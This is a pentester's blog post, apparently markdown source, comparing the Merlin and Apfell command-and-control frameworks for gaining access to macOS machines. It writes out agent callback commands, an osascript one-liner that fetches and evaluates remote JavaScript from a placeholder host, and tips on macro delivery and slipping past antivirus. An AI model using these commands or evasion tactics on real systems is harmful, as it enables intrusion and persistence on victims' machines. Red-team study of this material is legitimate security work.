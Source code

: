 ```yaml
---
layout: default
title: OSX Pentesting Part-1
permalink: /blog/OSXPenP1
---
```


# OSX Pentesting Part-1
## A brief foray into OSX C2 Frameworks
*original posted [here](https://chessict.co.uk/blog/av-for-mac-do-you-really-need-it/)*

As a Pentester, I often find myself attempting to identify, * read: shamelessly steal/adapt people's research*, new and intuitive ways to gain access and persistence on Windows endpoints without triggering the AV. My current go-to being a combination of shellcode injection and cobbr's Covenant C2. However, one of the main drawbacks of these frameworks is their limited, or complete lack of, applicable stagers for OSX.

Now I'm sure we've all heard the spiel "Mac's don't get viruses", "Mac AV is a waste of money" etc. but we know that's simply not true. This knowledge, however, doesn't help when you find yourself on an engagement desperately trying to reconfigure payloads because you've landed in the Design department and, of course, all the endpoints on your subnet are OSX.

*Before I go much further, confession time: I have, and love, my MacBook Pro. Since switching to it a few years ago as my daily driver, I couldn't be without it, to the extent that I bought my own to use at work rather than use the Windows laptop provided.*

So here we are, my go-to C2 is .Net based and while the control centre will run on OSX, with some cajoling, there is no OSX stager capability out of the box; enter 'Merlin' and 'Apfell'.


### Merlin

While I've experimented with Ne0nd0g's Merlin C2 on and off for a while, I actually very rarely find myself using it on engagements and I have no idea why. Written in Go, a language I'm actively trying to understand and utilise more, it can easily have agents compiled for Linux,OSX and Windows. One of Merlin's key features is its ability to evade network detection by utilising the HTTP/2 protocol (which most tools are ill-equipped to understand or inspect).

Out of the box, setup is relatively simple. It's just a case of downloading the applicable server and agent binary from the [GitHub repo](https://github.com/Ne0nd0g/merlin/releases). Once you've got the relevant binaries, you can spin up the merlin server from the terminal using the below command.

```python 
merlinServer-Linux-x64 -p 80 -i 0.0.0.0 
```
With 80 signfying the port you wish to listen on and 0.0.0.0 being the interface (in this case all)

![MServerStartup]({{site.url}}/assets/blog/OSXPenP1/MServerStartup.png)

Agent execution is achieved simply by executing the binary on your target host with the relevant details of your C2 server. I leave it to the reader to identify how they might get this binary onto the target host.

```python
merlinAgent-Darwin-x64 -url https://192.168.1.104:80
```

And thats it! We should now have a callback from our OSX target to our C2 server

![MCallBack]({{site.url}}/assets/blog/OSXPenP1/MAgentCallBack.png)

While this is very simple to set up, this simplicity comes with its drawbacks. From an attack vector perspective, the need to drop a binary onto disk and the requirement for a URL flag makes it more complex to trick a user into execution via social engineering. Additionally, the pre-compilation of the agent means it is much more likely to be detected by signature detection, as shown by VirusTotal.

![MVT1]({{site.url}}/assets/blog/OSXPenP1/MVT1.png)

Straight away, we can start to address some of these issues. Instead of utilising the released binary, we can create our own from source. We can also improve our social engineering chances by providing a method for 'one-click' execution by hard coding the connection URL.

```python
make agent-darwin URL=https://192.168.1.104:80
```

Both of these instantly drop the detection rate.
![MVT2]({{site.url}}/assets/blog/OSXPenP1/MVT2.png)

Unfortunately, these changes were not enough to trick the NextGen Sophos AV running on my Mac. At this stage, I would typically look at writing a separate dropper application as well as converting the stager into shellcode to avoid detection. This is both outside of the scope of this small blog and outside of my current OSX coding skills.

### Apfel

ApFell is a recent addition to my C2 arsenal, mainly due to it being directly targeted against *nix-based systems and not Windows. Fundamentally using a Web GUI frontend with docker instances running in the background, setup is achieved relatively easily via an [installation script](https://github.com/its-a-feature/Apfell).

On connecting to the WebGui you can easily review what operations are in progress and choose which one you want to connect to.

![APFellS1]({{site.url}}/assets/blog/OSXPenP1/APFellS1.png)

Payload generation is similarly streamlined by simply accessing the 'Create Components/Create Payload' menu.

![APFellPayload]({{site.url}}/assets/blog/OSXPenP1/APFellPayload.png)

From this menu, you can customise your attacking payload with the standard information such as encryption key, call-back host/port etc. The most notable element of payload creation is the ability to choose what functionality to include in your payload – a stroke of genius in situations where you're trying to stay undetected.

![APFellPayload2]({{site.url}}/assets/blog/OSXPenP1/APFellPayload2.png)

By restricting the functionality of any initial stager to just that which is required (typically something with command execution). Once a foothold has been achieved you can always include additional functionality in later payloads.

On clicking 'Submit' you can review/host/download your payload from the 'Manage Operations/Manage Payloads' page.

![APFellPayload3]({{site.url}}/assets/blog/OSXPenP1/APFellPayload3.png)

Now, because I'm one - lazy and two - don't like dropping directly malicious files to disk when I can help it, Apfell's ability to host files is definitely another bonus.

![APFellPhosting]({{site.url}}/assets/blog/OSXPenP1/APFellhosting.png)

Though based upon VirusTotal's detection metrics, dropping the resulting file onto the disk is currently unlikely to raise many flags.

![APFellVT1]({{site.url}}/assets/blog/OSXPenP1/APFellVT1.png)

By clicking on 'Config' you can review the settings of your payload, as well as obtain the relevant execution command.

```javascript
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://domain.com/payload.file')),$.NSUTF8StringEncoding)));"
```

Whilst not exactly the easiest command to trick users into executing, well in the capabilities of a rubber ducky/digispark attack scenario.

![APFellCallback1]({{site.url}}/assets/blog/OSXPenP1/APFellCallback1.png)

It’s not pretty, but it gets the job done, with AV none the wiser.

As stated before, this isn't exactly social engineering friendly – however thanks to Microsoft's inclusion of the VBA command 'Shell' and its cross-platform capabilities, getting this to execute from a macro is straight forward.

![APFellMacro]({{site.url}}/assets/blog/OSXPenP1/APFellMacro.png)

I started to play around with throwing some obfuscation into this (hence the commented out lines), but in the end this wasn't needed and AV lets it sail through with no issues, although the detection rate was increased.

![APFellVT2]({{site.url}}/assets/blog/OSXPenP1/APFellVT2.png)

This is most likely down to using an 'xlsm' to wrap my payload and the AV's in question being a bit twitchy (none of the Enterprise-based AV batted an eye), rather than them identifying the malicious content for what it is.

### Conclusion

Both C2 frameworks have good points and bad points, however on the whole I’d have to say Apfell takes the lead as the better framework when it comes to OSX C2 exploitation. This is primarily due to it providing lower AV detections, dropping fewer files to disk and the ability to customise payloads to fit particular use-cases, rather than being forced to include all capabilities and raising the detection risk. 

In part-2 (whenever I get around to write it), I’ll be looking more at how you can utilise both inbuilt OSX functionality as well as your own tooling to exploit Active Directory from the position of a compromised OSX device.
